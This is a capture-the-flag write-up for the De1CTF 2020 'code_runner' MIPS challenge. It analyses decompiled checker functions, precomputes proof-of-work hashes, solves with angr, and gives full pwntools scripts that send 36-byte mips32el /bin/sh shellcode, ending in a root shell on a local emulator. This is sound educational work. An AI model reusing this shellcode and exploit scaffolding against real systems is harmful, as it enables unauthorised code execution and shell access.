

# De1CTF 2020

## code_runner

> A SIMPLE CODE RUNNER
>  
> `nc 106.53.114.216 9999`

Tags: _pwn_ _remote-shell_ _mips_ _angr_ _shellcode_ _pow_ _rev_

#### This isn't the writeup you're looking for ...

I did not complete this challenge.  This is a walkthrough of what I learned, tools used, and a working _local_ PoC.  The official game server had a time constraint that I just didn't have the time to figure out.

### Summary

_A SIMPLE CODE RUNNER_ is simply that--send mips32el shellcode, get a shell, get the flag.  However to get there, you have to first solve a simple POW, and then _receive, decode, uncompress, and solve a unique, less-simple mips32el binary, and return an answer **in less than 0.5 seconds.**_

> w.r.t. _receive_, on the challenge server side the binary is sent, _then_ the binary is executed, however because of latency we're still receiving the binary while the clock has started ticking.


### Analysis

#### Checksec

```
    Arch:     mips-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

Some mitigations in place, however no obvious vulnerability (that I could find) except the one they hand you (run your shellcode).


#### `main` decompile (Ghidra)



Lines 15-19 gets the start time, calls a check function and _checks_ the check function returned non-zero.

If that passes, then the check solve time in _usec_ is computed and reported to the user as:

```
======== 16.1903s ========
```

This is a bit misleading, that number isn't really _16.1903s_, it's _16001903 usec_ or _16.001903s_.  There's a bug in the code and the output is not properly padded.  All that is important to focus on is that the time (_usec_) / 100000 (IOW 10ths of seconds) is < 13 (`0xd`) (line 29).

Lines 29-30 are a bit confusing from the Ghidra decompile, you'll have to look at the assembly to better understand this.

Translation:

```
if (uVar4 < 0xd)
    read(0, auStack276, uVar4 * -4 + 0x34);
```

This code penalizes you by reducing the number of shellcode bytes you are allowed (from a max of 52 (`0x34`)) to send by 4 for every 10th of a second spent _receiving, decoding, uncompressing, solving, and returning an answer_.

The [smallest mips32el shellcode I was able to find](https://vulmon.com/exploitdetails?qidtp=exploitdb&qid=35868) is 36 bytes, [the next shortest](http://shell-storm.org/shellcode/files/shellcode-782.php) is 52 (0x34) bytes.  The 52-byte solution is completely off the table because the latency from China to the US is _0.1s_.  The challenge server sends the binary; the decode and uncompress takes about _0.003s_ (negligible), however the challenge binary timer has already clocked _0.1s_ before we can start to solve the binary, and then after solving the problem, it takes _0.1s_ to send the reply--the clock is ticking.

The 36-byte code is an option if the total time to _receive, decode, uncompress, solve, send_ is < _0.5s_, i.e. _0.499999s_ (_499999 usec_) is the max time (line 28 is integer division, i.e. `uVar4 = 4`).

The net of all of this, is that we have to solve a _unique_ binary in < _0.3s_.

> Perhaps _0.4s_ if we rent a VM closer to China.


#### The Checkers

Line 18 (`main`) kicks off a chain of 16 checks.  Each check, checks 4 bytes (the first check, checks the first 4 bytes, if passed, calls the second check, that then checks the second 4 bytes, etc...).  Any failed check will return `0`.  If all checks pass `0xc00lbabe` will be returned.

The checks come in various different flavors with various different constants in various different orders with varying operators.  IOW, each binary is similar to some extent, but still unique.

A crud analysis of all 16 functions from ~170 binaries based on size of function only:

```
  count bytes
  ----- -----
      2 168
    223 172
    213 176
      1 184
      2 188
    224 192
    213 196
      3 240
    113 252
    103 256
    113 260
    103 264
    431 296
      1 300
    132 304
      2 308
    200 312
      1 316
    103 320
    473 436
```

Based on manual visual inspection, I speculate all the functions follow one of the following 6 patterns, however there is enough variability to have slightly different sizes:

```
undefined4 FUN_00401930(byte *param_1)

{
  int iVar1;
  int iVar2;
  undefined4 uVar3;
  
  iVar1 = (uint)param_1[3] * (uint)param_1[3] - (uint)param_1[2] * (uint)param_1[2];
  if (iVar1 < 0) {
    iVar1 = -iVar1;
  }
  iVar2 = (uint)*param_1 * (uint)*param_1 - (uint)param_1[1] * (uint)param_1[1];
  if (iVar2 < 0) {
    iVar2 = -iVar2;
  }
  if (iVar1 < iVar2) {
    iVar1 = (uint)*param_1 * (uint)*param_1 - (uint)param_1[3] * (uint)param_1[3];
    if (iVar1 < 0) {
      iVar1 = -iVar1;
    }
    iVar2 = (uint)param_1[1] * (uint)param_1[1] - (uint)param_1[2] * (uint)param_1[2];
    if (iVar2 < 0) {
      iVar2 = -iVar2;
    }
    if (iVar2 <= iVar1) {
      uVar3 = FUN_0040187c((char *)(param_1 + 4));
      return uVar3;
    }
  }
  return 0;
}
```

```
undefined4 FUN_0040187c(char *param_1)

{
  undefined4 uVar1;
  
  if ((((param_1[2] == *param_1) && (param_1[1] == param_1[3])) && (param_1[1] == '#')) &&
     (*param_1 == 'M')) {
    uVar1 = FUN_00401744(param_1 + 4);
  }
  else {
    uVar1 = 0;
  }
  return uVar1;
}
```

```
undefined4 FUN_00401744(char *param_1)

{
  undefined4 uVar1;
  
  if ((((*param_1 == 'b') && (param_1[1] == -0x7f)) && (param_1[2] == (char)(*param_1 * *param_1)))
     && (param_1[3] ==
         (char)((param_1[1] * param_1[1] + param_1[2] * param_1[2]) - *param_1 * *param_1))) {
    uVar1 = FUN_00401640((byte *)(param_1 + 4));
  }
  else {
    uVar1 = 0;
  }
  return uVar1;
}
```

```
undefined4 FUN_00401640(byte *param_1)

{
  undefined4 uVar1;
  
  if (((((param_1[3] ^ *param_1) == 0x73) && (*param_1 == 0xb9)) &&
      ((uint)param_1[1] == ((uint)(param_1[3] ^ *param_1) & 0x7f) << 1)) &&
     (param_1[2] == (byte)(param_1[3] ^ *param_1 ^ param_1[1]))) {
    uVar1 = FUN_004014f8((char *)(param_1 + 4));
  }
  else {
    uVar1 = 0;
  }
  return uVar1;
}
```

```
undefined4 FUN_00401378(byte *param_1)

{
  undefined4 uVar1;
  
  if ((((uint)param_1[2] + (uint)param_1[3] == 0xf5) || ((uint)param_1[3] + (uint)*param_1 == 0x42))
     || ((uint)*param_1 + (uint)param_1[1] == 0xbe)) {
    uVar1 = 0;
  }
  else {
    uVar1 = FUN_004012c0((char *)(param_1 + 4));
  }
  return uVar1;
}
```

```
undefined4 FUN_00400fd0(byte *param_1)

{
  undefined4 uVar1;
  
  if (((((uint)*param_1 + (uint)param_1[1] + (uint)param_1[2] == 0xab) &&
       ((uint)param_1[1] + (uint)param_1[2] + (uint)param_1[3] == 300)) &&
      ((uint)param_1[2] + (uint)param_1[3] + (uint)*param_1 == 0x133)) &&
     ((uint)param_1[3] + (uint)*param_1 + (uint)param_1[1] == 0xb6)) {
    uVar1 = FUN_00400f04(param_1 + 4);
  }
  else {
    uVar1 = 0;
  }
  return uVar1;
}
```

And it is not just constants that change, operators change as well, e.g. `<`, `&&`, `^`, `+`, etc...

At this point I decided to build a local PoC to make sure I have all the necessary bits and understanding before focusing on optimization.


### PoC

#### Setup

```
#!/usr/bin/python3

from pwn import *
import hashlib, base64, gzip, io, os
import angr, time

#https://vulmon.com/exploitdetails?qidtp=exploitdb&qid=35868
#does NOT work with busybox
#36 bytes
shellcode  = b""
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xff\xff\xd0\x04"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\x01\x10\xe4\x27"
shellcode += b"\x0f\xf0\x84\x24"
shellcode += b"\xab\x0f\x02\x24"
shellcode += b"\x0c\x01\x01\x01"
shellcode += b"/bin//sh"
shellcode += (0x34 - len(shellcode)) * b'\x00'

# find next n
n = 0
while os.path.isfile('binary' + str(n)):
    n += 1
open('binary' + str(n), 'wb').write(b'')

p = remote('106.53.114.216',9999)
context.log_level='DEBUG'
p.recvuntil('== "')
target = p.recvuntil('"')[:-1]
print("target hash: " + target.decode())
p.recvuntil('>')
```

This code just sets the shellcode, finds the next free binary<i>n</i> (for saving all binaries), connects to the challenge server and receives the PoW hash, e.g.:

```
[+] Opening connection to 106.53.114.216 on port 9999: Done
=========Pow========
hashlib.sha256(s).hexdigest() == "3a2ab9d5b8e56488b4318c4b90d7b54832251cbac9b7fbe3b0471e12f7847b58"
len(s) == 3
>
```


#### PoW

To get past the proof-of-work check as quickly as possible I precomputed all of the hashes (1.3GB file):

```
#!/usr/bin/python3

import hashlib

for i in range(256 ** 3):
	s = i.to_bytes(3,'little')
	print(s)
	print(hashlib.sha256(s).hexdigest())
```

> This takes about a minute

Then used this crud code to find and send the 3 bytes:

```
stream = os.popen('cat hashes | grep -m 1 -B 1 ' + target.decode() +  ' | head -1')
output = stream.read().strip().encode('ascii')
s=eval(output)
print("found: " + hashlib.sha256(s).hexdigest())
p.sendline(s)
```

#### Binary Dump

The reward for correctly answering the PoW is your very own, custom, challenge binary.

```
p.recvuntil('Binary Dump:')
p.recvline()
p.recvline()
binary_dump=p.recvline().strip()
```

0.002 seconds (measured) after the binary dump is sent, the binary starts.

> The _solve-in-0.5s_ clock is now ticking and thanks to latency it's already at _0.1s_.


```
t=time.time()
binarygz = base64.b64decode(binary_dump)
binary = gzip.GzipFile(fileobj=io.BytesIO(binarygz)).read()
open('binary' + str(n), 'wb').write(binary)
print(time.time() - t,end="")
print(" seconds")
```

The code above just decodes, uncompresses, and saves the binary (for analysis).


#### Solve with angr.io

```
t=time.time()
proj = angr.Project(io.BytesIO(binary),auto_load_libs=False)
state = proj.factory.entry_state()
simgr = proj.factory.simulation_manager(state)
simgr.use_technique(angr.exploration_techniques.DFS())
FIND_ADDR=0x400b44
simgr.explore(find=FIND_ADDR)
print(time.time() - t,end="")
print(" seconds")
payload = simgr.found[0].posix.dumps(0)[:64]
open('payload' + str(n),'wb').write(payload)
```

Fortunately, all the binaries are the same size and `0xc00lbabe` is located at the same address (`0x400b44` (`babe`)).  The above code will use [angr.io](angr.io) magic and find a solution in ~15 seconds ~50% of the time.  Clearly not fast enough.  The payload will be saved for continued dev/test.


#### Local testing

As stated the angr code above is not fast enough.  However with one payload we can test locally the rest of the solution and at least have those bits complete before returning to optimize the solution.

> I'm an angr n00b, there may be a better way with angr.

To test locally use [arm_now](https://github.com/nongiach/arm_now):

```
arm_now start mips32el -s --clean --redir tcp:9999:9999
```

After boot, login as `root` with no password and install some packages:

```
opkg update && opkg install socat file ldd bash
```

Then test:

```
# chmod 750 ./binary0
# (cat payload0; cat) | ./binary0

Faster >
======== 0.8980s ========
Name
> datajerk
Your time comes.
>
do_page_fault(): sending SIGSEGV to binary0 for invalid read access from 7c9ae400
epc = 7c9ae400 in
ra  = 7f911a04 in
Segmentation fault
```

It works!

Again, the time reported is incorrect, above the `0.8980` is really 8980 usec, so the time check passed.  The `Your time comes.` is prompting for [upto] 52 bytes of shellcode.  Since none was provided the binary tried to execute nulls (line 16 in `main`).  But before that you're prompted for your `Name`, this is used for the `/Time` file:

```
# cat /Time
8980:datajerk8980:
40392:datajerk40392:
9795:datajerk9795:
```

Due do a bug in their code if you input 8 characters, it'll run up to the buffer used by `snprintf`, thus appending your time to your name (look at the code).

To test out the last stage of this challenge use `socat` to run the binary as a service:

First, add the logo for the full experience:

```
# cat >logo <<'EOF'
________         ____        __    _____
\______ \   ____/_   | _____/  |__/ ____\
 |    |  \_/ __ \|   |/ ___\   __\   __\
 |    `   \  ___/|   \  \___|  |  |  |
/_______  /\___  >___|\___  >__|  |__|
        \/     \/         \/
---------------Code Runner---------------
EOF
```

Then:

```
ln -s -f /opt/bin/bash /bin/sh # busybox will segfault with the 36-byte shellcode
socat TCP-LISTEN:9999,reuseaddr,fork EXEC:/root/binary0,pty,stderr,setsid,sigint,sane,rawer
```

From a different terminal:

```
#!/usr/bin/python3

from pwn import *
import time

payload = open('payload0','rb').read()

#https://vulmon.com/exploitdetails?qidtp=exploitdb&qid=35868
#36 bytes
shellcode  = b""
shellcode += b"\xff\xff\x06\x28"
shellcode += b"\xff\xff\xd0\x04"
shellcode += b"\xff\xff\x05\x28"
shellcode += b"\x01\x10\xe4\x27"
shellcode += b"\x0f\xf0\x84\x24"
shellcode += b"\xab\x0f\x02\x24"
shellcode += b"\x0c\x01\x01\x01"
shellcode += b"/bin//sh"
shellcode += (0x34 - len(shellcode)) * b'\x00'

p = remote('127.0.0.1',9999)

p.recvuntil('Faster >')
p.sendline(payload)
p.recvuntil('Name')
p.send('datajerk')
p.recvuntil('>')
p.recvuntil('Your time comes.\n> ')
p.send(shellcode)
p.interactive()
```

Output:

```
[+] Opening connection to 127.0.0.1 on port 9999: Done
[*] Switching to interactive mode

bash-4.4# $ id
uid=0(root) gid=0(root) groups=0(root),10(wheel)
```

Got a shell.


#### All together now

[sol.py](sol.py) is the complete end-to-end failed solution because of how relative slow angr is, and if angr is able to solve in (I'm guessing) less than a minute, it'll still fail with:

```
/usr/bin/timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
```

Basically the time took too long and no shellcode was read.  If angr takes more than about a minute (again guessing) the connection is dropped (speculating `/usr/bin/timeout` can be thanked for that).

I did not save all my runs, but of those that I did, this was the fastest:

```
======== 10.363668s ========
```

Just after the binary dump and before the binary execution `/Time` is report as:

```
Rank(Refresh Every Min)
===============
1st. n132(1000)
2ed. shell(434092)
3th. datajerk17751189(17751189)
```

You can see my pathetic last attempt at _17.751189s_.  Above me I can only speculate is [shellphish](https://github.com/shellphish) at _0.434092s_.  Clearly they figured it out and are probably using the same 36-byte shellcode.


#### Now what?

Things I thought about to avoid the very hard work of solving a unique binary in < _0.3s_:

1. Look for other exploits, clearly there are bugs, but none of them looked very useful.
2. Pull down a ton of binaries and hope for duplicates at some measurable rate.  I had time, and with the hash cache I could have probably pulled down a million of them.  Solved one and then tried over and over to get that same binary.  I pulled down ~170 while testing and learning about this challenge, and, well, I started to get the feeling that there would be no duplicate.
3. Slow down time.  What if there were a way to exploit the bug that appended my time to the `/Time` table to make it take a very long time to process and output.

Anyway, that's all lazy talk.  Waiting for the legit write ups to learn new ways to solve these problems.
